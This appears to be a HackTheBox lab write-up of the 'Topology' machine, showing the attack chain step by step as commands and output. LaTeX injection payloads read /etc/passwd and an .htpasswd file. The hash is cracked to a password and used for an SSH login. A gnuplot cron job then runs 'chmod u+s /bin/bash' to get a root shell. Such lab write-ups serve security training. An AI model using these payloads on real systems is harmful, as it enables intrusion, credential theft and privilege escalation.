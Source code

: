 ```yaml
---
categories: [HackTheBox]
tags: [LaTeX, subdomain, PrivEsc]  
image:
  path: /Vulnhub-Files/img/Topology/Untitled.png
  alt: Topology HackTheBox Machine 🫡
---
```




## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Topology]
└─$ cat Nmap_results.txt 
# Nmap 7.94 scan initiated Wed Oct  4 21:24:34 2023 as: nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.10.11.217
Nmap scan report for 10.10.11.217
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## Web Enumeration ⤵️

While checking port 80 I got the DNS name that is `topology.htb` and I searched for any subdomains and through source code I got one subdomain and rest from ffuf tool →

![Untitled](/Vulnhub-Files/img/Topology/Untitled%201.png)

form source code I got one →

![Untitled](/Vulnhub-Files/img/Topology/Untitled%202.png)

Now with tool called as `ffuf` I got 2 other subdomains →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Topology]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.topology.htb" -u http://topology.htb -fs 6767

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       'v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://topology.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.topology.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 6767
________________________________________________

dev                     [Status: 401, Size: 463, Words: 42, Lines: 15, Duration: 1659ms]
stats                   [Status: 200, Size: 108, Words: 5, Lines: 6, Duration: 852ms]
:: Progress: [19966/19966] :: Job [1/1] :: 11 req/sec :: Duration: [0:24:26] :: Errors: 0 ::
```
{: .nolineno}

Lets see the `latex.topology.htb` site first →

![Untitled](/Vulnhub-Files/img/Topology/Untitled%203.png)

I then searched for Latex Injection on web and I got some inputs like this →

![Untitled](/Vulnhub-Files/img/Topology/Untitled%204.png)

I used this one to get the output →

```bash
$\lstinputlisting{/etc/passwd}$
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Topology/Untitled%205.png)

Now as I got the `dev` subdomain so I think this site is `apache` based and could contains `.htpasswd` file so lets try to access this file →

```bash
$\lstinputlisting{/var/www/dev/.htpasswd}$
```
{: .nolineno}

and I got this →

![Untitled](/Vulnhub-Files/img/Topology/Untitled%206.png)

```bash
vdaisley : $apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```
{: .nolineno}

Now Lets crack this hash with hashcat Tool →

![Untitled](/Vulnhub-Files/img/Topology/Untitled%207.png)

```bash
vdaisley : calculus20
```
{: .nolineno}

## SSH SHELL ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Topology]
└─$ ssh vdaisley@topology.htb
vdaisley@topology.htbs password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-150-generic x86_64)

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

vdaisley@topology:~$ whoami
vdaisley
vdaisley@topology:~$ id
uid=1007(vdaisley) gid=1007(vdaisley) groups=1007(vdaisley)
vdaisley@topology:~$
```
{: .nolineno}

Lets dig deeper for root access →

I capture these data through pspy64 Tool that analyses the network pattern →

![Untitled](/Vulnhub-Files/img/Topology/Untitled%208.png)

I searched on web regarding this gnuplot and I get the info as →

> ***gnuplot*** is a command-line and GUI program that can generate two- and three-dimentional plots of functions, data, and data fits.
{: .prompt-tip }

and I also got an exploit related to it from [here](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/).

In this case I created a file called as `test.plt` and executed the command to make `bash` have SUIDs permission , as the cron will execute on its own through root privileges so →

```bash
vdaisley@topology:/tmp$ nano /opt/gnuplot/test.plt
vdaisley@topology:/tmp$ cat /opt/gnuplot/test.plt
system "chmod u+s /bin/bash"
vdaisley@topology:/tmp$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
vdaisley@topology:/tmp$ /bin/bash -p
bash-5.0# whoami
root
bash-5.0# id
uid=1007(vdaisley) gid=1007(vdaisley) euid=0(root) groups=1007(vdaisley)
bash-5.0# cd /root
bash-5.0# ls -al
total 28
drwx------  4 root root 4096 Jun 14 07:47 .
drwxr-xr-x 18 root root 4096 Jun 12 10:37 ..
lrwxrwxrwx  1 root root    9 Mar 13  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Jan 17  2023 .bashrc
drwx------  3 root root 4096 Jan 17  2023 .config
drwxr-xr-x  3 root root 4096 May 12 07:34 .local
-rw-r--r--  1 root root  161 Jan 17  2023 .profile
-rw-r-----  1 root root   33 Oct  4 14:00 root.txt
bash-5.0#
```
{: .nolineno}

I am Root Now !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }
